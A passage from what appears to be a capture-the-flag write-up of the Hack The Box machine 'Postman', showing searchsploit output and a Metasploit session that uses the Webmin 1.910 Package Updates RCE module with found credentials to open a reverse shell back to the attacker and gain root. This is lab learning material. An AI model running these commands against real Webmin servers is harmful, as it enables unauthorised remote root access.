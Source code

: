 Ooo it seems like a dashboard that monitors the `Webmin` service. After looking around, there doesn't seem to be any place where we attack from. Lets see if we can find any exploits using `searchsploit`.

{% highlight bash %}
$ searchsploit webmin
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
...
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)    | exploits/linux/remote/46984.rb
...
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

# Exploitation

Hmm from the `nmap` results and the dashboard, we can tell that the version of `Webmin` is `1.910`, hence we will use the exploit whose target version is nearest to it.

{% highlight bash %}
$ msfconsole
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.XX.XX
LHOST => 10.10.XX.XX
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS postman.htb
RHOSTS => postman.htb
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > run

*] Started reverse TCP handler on 10.10.XX.XX:1337 
[+] Session cookie: 169f13b0b46f82aeea5f5ea57524526f
[*] Attempting to execute the payload...
[*] Command shell session 2 opened (10.10.XX.XX:4444 -> 10.10.10.160:55156) at 2019-12-31 07:50:17 -0500


{% endhighlight %}

There's no prompt but lets try to upgrade to a `tty` shell.

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# id
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}
